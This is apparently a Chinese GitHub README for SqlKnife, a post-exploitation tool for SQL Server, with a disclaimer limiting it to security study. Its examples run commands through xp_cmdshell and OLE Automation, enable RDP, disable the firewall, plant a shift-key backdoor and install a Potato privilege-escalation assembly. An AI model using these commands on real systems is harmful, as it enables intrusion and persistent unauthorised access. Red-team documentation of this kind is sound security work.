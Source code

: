 # SqlKnife


郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

适合在命令行中使用的轻巧的SQL Server数据库安全检测工具。

## 参数说明

![](img/Snipaste_2021-08-03_10-43-27.png)

```
 <-H host> <-P port> <-u username> <-p password> <-D dbname> <--openrdp> <--shift> <--disfw> <--xpcmd> <--oacreate> <--dbup> <--fix> <--remove> <--3/--4>
```

-H 目标ip，默认127.0.0.1

-P 端口，默认1433

-u 用户名，默认sa

-p 密码，默认为空字符串

-D 数据库名，默认master

-c 要执行的命令

--openrdp 开启目标远程桌面并读取当前远程桌面端口号

--shift 劫持shift键

--disfw 关闭目标防火墙

--xpcmd 与-c参数结合使用，利用xp_cmdshell执行命令

--oacreate 与-c参数结合使用，利用Ole Automation Procedures执行命令（无回显）

--fix 与xpcmd或者oacreate结合使用，启用存储过程

--3/--4 使用什么版本的clr payload 默认为4.0

--remove 把程序集清理掉并且禁用相关功能

## 示例

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

![](img/Snipaste_2021-08-03_10-46-08.png)

![Snipaste_2021-08-03_10-46-29](img/Snipaste_2021-08-03_10-46-29.png)

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

![Snipaste_2021-08-03_10-47-04](img/Snipaste_2021-08-03_10-47-04.png)

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove

![Snipaste_2021-08-03_10-47-56](img/Snipaste_2021-08-03_10-47-56.png)


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

![Snipaste_2021-08-03_10-56-34](img/Snipaste_2021-08-03_10-56-34.png)

### 开RDP，关防火墙加规则（开RDP时自动加），装shift后门

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp

![Snipaste_2021-08-03_11-36-43](img/Snipaste_2021-08-03_11-36-43.png)

![Snipaste_2021-08-03_11-36-57](img/Snipaste_2021-08-03_11-36-57.png)

#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）

![Snipaste_2021-08-03_11-42-58](img/Snipaste_2021-08-03_11-42-58.png)

#### 劫持shift键

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift

![Snipaste_2021-08-03_11-45-54](img/Snipaste_2021-08-03_11-45-54.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### PotatoInSQL(--dbup)
将土豆提权作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3

![Snipaste_2021-08-03_11-17-47](img/Snipaste_2021-08-03_11-17-47.png)

![Snipaste_2021-08-03_11-18-02](img/Snipaste_2021-08-03_11-18-02.png)



#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami

![Snipaste_2021-08-03_11-28-46](img/Snipaste_2021-08-03_11-28-46.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### 启用/还原配置功能

![Snipaste_2021-08-03_11-29-35](img/Snipaste_2021-08-03_11-29-35.png)

做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload
